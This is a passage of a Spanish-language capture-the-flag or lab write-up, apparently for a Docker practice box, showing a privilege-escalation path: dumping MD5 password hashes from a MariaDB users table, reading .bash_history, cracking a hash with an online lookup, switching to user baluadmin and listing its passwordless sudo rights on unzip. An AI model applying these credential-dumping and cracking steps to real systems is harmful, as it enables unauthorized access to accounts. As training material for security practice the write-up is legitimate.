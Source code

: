 Seleccionamos los datos para el **usuario** y **password**
```bash
MariaDB [secretito]> select usuario, password from usuarios;
+-----------+----------------------------------+
| usuario   | password                         |
+-----------+----------------------------------+
| alice     | 8bdffaa69d328c1d4ae3aeadc97de223 |
| bob       | d8578edf8458ce06fbc5bb76a58c5ca4 |
| charlie   | e99a18c428cb38d5f260853678922e03 |
| baluadmin | aa87ddc5b4c24406d26ddad771ef44b0 |
| diana     | e10adc3949ba59abbe56e057f20f883e |
+-----------+----------------------------------+
```

Tenemos la potencial contrasena para el usaurio **baluadmin**, Lo que primero intentaremos loguearnos asi tal cual con esa password:
```bash
su baluadmin
Password: aa87ddc5b4c24406d26ddad771ef44b0
su: Authentication failure
```

Checamos is que posible hash es:
```bash
hashid aa87ddc5b4c24406d26ddad771ef44b0
```

Leyendo por le historico
```bash
cat .bash_history 
```

Tenemos lo siguiente:
```bash
unzip secretitosecretazo.zip 
cp secretitosecretazo.zip /home
```

Usamos el comando **find** para realizar la busqueda de este archivo:
```bash
find / -iname "secretitosecretazo.zip" 2>/dev/null

/secretitosecretazo.zip
```

Probamos desencriptando el hast desde esta web [hashdecrypt](https://md5decrypt.net/en/) 
```bash
aa87ddc5b4c24406d26ddad771ef44b0 : estrella
```

Tenemos la posible contrasne de **baluadmin**, 
```bash
su baluadmin # ( estrella )
```

###### Usuario `[ Steven ]`:
LIstando los permisos para este ususario tenenmos lo siguiente:
```bash
sudo -l

User baluadmin may run the following commands on 5d224b6910dc:
    (ALL) NOPASSWD: /usr/bin/unzip
```
